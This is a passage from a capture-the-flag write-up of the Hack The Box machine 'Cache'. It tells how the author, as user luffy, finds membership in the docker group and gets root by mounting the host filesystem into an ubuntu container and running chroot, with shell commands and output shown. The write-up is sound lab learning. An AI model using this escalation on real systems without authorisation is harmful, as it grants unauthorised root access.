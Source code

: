 Now we have the password for luffy too. Next stop root.

Again I try things like `sudo -l` and `netstat -aon` but no luck this time. I check the crontabs. I try to find SUID binaries but none of them had any entries on GTFO bins. So I finally transfer linPEAS and run it. I see a lot of docker in the output but I have no idea how to use docker for priv esc. At this point I have officially run out of ideas and had to head over to HTB forums yet again. I see people say that it is infact a GTFO bin for priv esc but I have already tried all of the SUIDs.

I search for linux priv esc methods and see something I didn't do before i.e check the groups that the user is part of.

```
luffy@cache:/tmp$ id
id
uid=1001(luffy) gid=1001(luffy) groups=1001(luffy),999(docker)
```

Huh.. we are in the docker group. It is time to finally search for docker priv esc and I finally get what they meant by GTFO bins. It had an [entry for docker](https://gtfobins.github.io/gtfobins/docker/) too which I didn't try at first. 

So I try the first method.

```
luffy@cache:/tmp$ docker run -v /:/mnt --rm -it alpine chroot /mnt sh
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
Unable to find image 'alpine:latest' locally
docker: Error response from daemon: Get https://registry-1.docker.io/v2/: dial tcp: lookup registry-1.docker.io: Temporary failure in name resolution.
See 'docker run --help'.
```

That... didn't really work. Whats wrong? It says that docker didn't find the image alpine. So is it not there? After some searching I find a command to list out all the docker images.

```
luffy@cache:/tmp$ docker image ls
docker image ls
REPOSITORY          TAG                 IMAGE ID            CREATED             SIZE
ubuntu              latest              2ca708c1c9cc        11 months ago       64.2MB
```

Alright lets try replacing "alpine" with "ubuntu". And it worked!

```
luffy@cache:/tmp$ docker run -v /:/mnt --rm -it ubuntu chroot /mnt sh
docker run -v /:/mnt --rm -it ubuntu chroot /mnt sh
# whoami
whoami
root
```

Learned a lot from yet another box. Docker, virtual hosts, memcached... much stuff that I didn't know about. After so much brainstorming I don't have enough brain cells left to write a proper ending so... See ya!
